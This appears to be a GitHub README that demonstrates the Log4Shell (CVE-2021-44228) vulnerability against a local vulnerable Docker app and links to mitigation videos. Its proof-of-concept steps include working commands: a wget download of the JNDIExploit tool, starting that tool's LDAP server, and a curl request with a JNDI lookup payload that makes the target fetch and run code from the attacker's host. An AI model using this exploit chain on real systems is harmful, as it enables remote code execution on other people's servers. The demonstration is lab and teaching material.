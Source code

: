 # Log4Shell

This repository is for Log4j 2021 (CVE-2021-44228) Vulnerability demonstration and mitigation.

## What is Log4Shell?

The CVE-2021-44228 / Log4Shell vulnerability consists of injecting vulnerable software with a malicious payload, which will ask Log4J to obtain a value from a third-party source, with JNDI and through the LDAP protocol. ... The imported data can be code, which will be executed by Log4J on the system.

## Proof of concept ([VIDEO TUTORIAL](https://youtu.be/E_KfwimVTIA))

1. We run a Spring Boot web application vulnerable to CVE-2021-44228 in Docker, nicknamed Log4Shell by @christophetd.
It uses Log4j 2.14.1 (through spring-boot-starter-log4j2 2.6.1) and the JDK 1.8.0_181.
`docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`
![Log4Shell_1](./doc/img/Log4Shell_1.png)
![Log4Shell_2](./doc/img/Log4Shell_2.png)

2. We download the JNDI Exploit for Log4Shell from web archive in this case, but you can download it wherever it's available.
`wget https://web.archive.org/web/20211211031401/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
![Log4Shell_3](./doc/img/Log4Shell_3.png)
![Log4Shell_4](./doc/img/Log4Shell_4.png)

3. We obtain the IP address of our machine who's running the docker of the Log4Shell application.
`ifconfig`
![Log4Shell_IP](./doc/img/Log4Shell_IP.png)

4. We unzip the zip with the JNDI Exploit for Log4Shell, so we obtain the JAR and we execute it putting our IP obtained in step 3.
```sh
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
![Log4Shell_5](./doc/img/Log4Shell_5.png)

5. Then, trigger the exploit using:
`curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`
![Log4Shell_6](./doc/img/Log4Shell_6.png)

* We see we have a JNDI connection to our machine, and we can see the code executed by Log4J.
![Log4Shell_7](./doc/img/Log4Shell_7Result.png)

6. To confirm that the code execution was successful, notice that the file /tmp/pwned.txt was created in the container running the vulnerable application.
`docker exec vulnerable-app ls /tmp`
![Log4Shell_8](./doc/img/Log4Shell_8Result.png)

## Mitigation

Video of how to mitigate the Log4Shell vulnerability in Windows and Linux: [MITIGATION](https://youtu.be/dBlfS-wFyqg)
#### Mitigation in Linux (example picture)

![MITIGATION](./doc/img/Log4Shell_Mitigation_Linux.png)

## Author

Feryael Justice 2022

